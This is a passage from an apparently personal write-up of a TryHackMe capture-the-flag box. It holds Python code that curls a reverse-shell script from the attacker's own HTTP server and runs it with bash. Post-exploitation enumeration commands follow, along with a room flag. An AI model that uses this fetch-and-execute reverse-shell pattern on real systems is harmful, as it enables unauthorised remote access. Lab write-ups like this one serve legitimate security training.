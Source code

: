 ```py
def kill_server(process, filename="rev.sh"):
    if os.path.exists(filename):
        os.remove(filename)

    os.killpg(os.getpgid(process.pid), signal.SIGTERM) 
        

if __name__ == "__main__":
    #subprocess.check_output('bash -c \'pgrep -f "python3 -m http.server" | xargs kill\'', shell=True)
    cmd1 = f"curl http://{our_ip}:8000/rev.sh -o /tmp/rev.sh"
    cmd2 = f"/bin/bash /tmp/rev.sh"
    http_server_process = prepare_exploit_file()
    run_cmd(cmd1)

    print("uploaded script.. Waiting 5 sec")
    time.sleep(5)
    run_cmd(cmd2)

    time.sleep(5)
    kill_server(http_server_process)

```

And we get a revshell.
We see `/home/johnsmith/user.txt` but we can't access it

Now I was a bit lazy and I took a shortcut.. The tryhackme page mention a `foothold.txt` so I just `find / -name foothold.txt 2>/dev/null` and found it in `/opt/foothold.txt`
```
THM{dont_expose_.git_to_internet}
```

The spring code is in `/opt/spring` (We knew that from the source code, could have found `foothold.txt` without searching)

Now we can try to `su johnsmith` with the passwords we found earlier... NOP doesn't work

We can't access `/home/johnsmith/.ssh` either

Doesn't seem to be anormal SGID binaries (`find / -perm -4000 2>/dev/null`)

There is a `tomcatlogs` folder in `/home/johnsmith` that belong to `johnsmith`. It contains errors related to our execution.

Looking at the `/tmp/rev.sh` file that we uploaded. It belong to `nobody` so the command is not executed by `johnsmith`. Only `tomcat` seems to be runned by `johnsmith`.

Hmmm we got to find a way for `tomcat` to execute some code.

Let's list the open ports on the box with `netstat -tulpn | grep LISTEN`. Maybe we can access tomcat locally ?
```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -      
```
